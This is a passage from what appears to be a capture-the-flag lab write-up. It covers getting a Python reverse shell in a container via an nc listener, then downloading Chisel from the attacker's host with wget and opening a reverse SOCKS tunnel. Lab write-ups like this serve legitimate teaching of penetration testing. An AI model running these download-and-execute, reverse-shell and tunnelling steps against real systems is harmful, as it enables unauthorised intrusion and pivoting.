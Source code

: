     
    
    Connecting to 10.10.14.6 (10.10.14.6:80)
    saving to '/tmp/index'
    index                100% |********************************|   532  0:00:00 ETA
    '/tmp/index' saved
    

#### Shell

I can get a shell in the container. I used the `alpine-python:latest`
container, which means there is Python. `python` isn’t in the path, but
`python3` is. I’ll generate a “Python3 #2” reverse shell from
[revshells.com](https://www.revshells.com/), and run it as as a background
command. It connects back, with some odd chacters but otherwise working fine:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.184 41814
    / $ ^[[49;5Rpwd
    /
    / $ ^[[49;5Rls
    bin      home     media    proc     sbin     tmp
    dev      lib      mnt      root     srv      usr
    etc      logfile  opt      run      sys      var
    console?prompt=/%20$%20^[[49;5R
    

The container is basically empty, which isn’t surprising, as it’s a container
I just created. That said, there is a misconfiguration in how this container
runs background commands that would let me skip several of the next steps,
which I’ll cover in Beyond Root.

## Shell as jack

### Access to dev

#### Create Socks Proxy

I’ll give my container commands to upload
[Chisel](https://github.com/jpillora/chisel) in to the container, first with
`wget http://10.10.14.6/chisel_1.8.1_linux_amd64 -O /tmp/c`, and then with
`chmod +x /tmp/c`. An empty return on the second command indicates success.
I’ll start up my server (`./chisel_1.8.1_linux_amd64 server -p 8000
--reverse`, using a different port since Burp already listens on the default
port, 8080), and the connect back with a background command (since I want it
to be long running) of `/tmp/c client 10.10.14.6:8000 R:socks`. The background
commands don’t return anything, but there’s a connection at my Chisel server:

    
    
    2023/02/10 21:46:43 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
    

#### Configure Traffic
